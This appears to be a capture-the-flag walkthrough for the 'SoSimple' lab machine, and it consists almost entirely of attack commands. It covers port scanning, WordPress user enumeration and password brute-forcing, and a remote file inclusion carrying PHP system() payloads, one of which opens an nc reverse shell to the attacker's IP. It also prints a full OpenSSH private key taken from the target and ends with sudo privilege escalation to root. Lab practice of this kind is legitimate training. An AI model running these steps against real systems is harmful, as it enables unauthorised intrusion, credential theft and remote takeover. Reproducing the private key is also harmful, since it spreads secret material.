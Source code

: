 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# SoSimple
# 17/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))


/wordpress
 wpscan --url http://192.168.76.78/wordpress --enumerate
got user max
wpscan --url http://192.168.76.78/wordpress -U max -P /usr/share/wordlists/rockyou.txt
max:opensesame

echo "<pre>system('cat /etc/passwd')</pre>" > payload.txt            
python3 -m http.server 80
http://http://192.168.76.78/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.76/payload.txt
echo "<pre>system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.76 8080 >/tmp/f')</pre>" > payload.txt  


cd5d382ce44c5b002efda8f6ca9f6555
get ssh file from max home dir and ssh it

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

sudo -l
sudo -u steven service ../../bin/sh

cd /opt
mkdir tools
cd tools
nano server-health.sh

#!/bin/bash
/bin/bash

chmod +x server-health.sh 

sudo /opt/tools/server-health.sh
01fb8be7dfd92fb38d055b8d2dbb4d95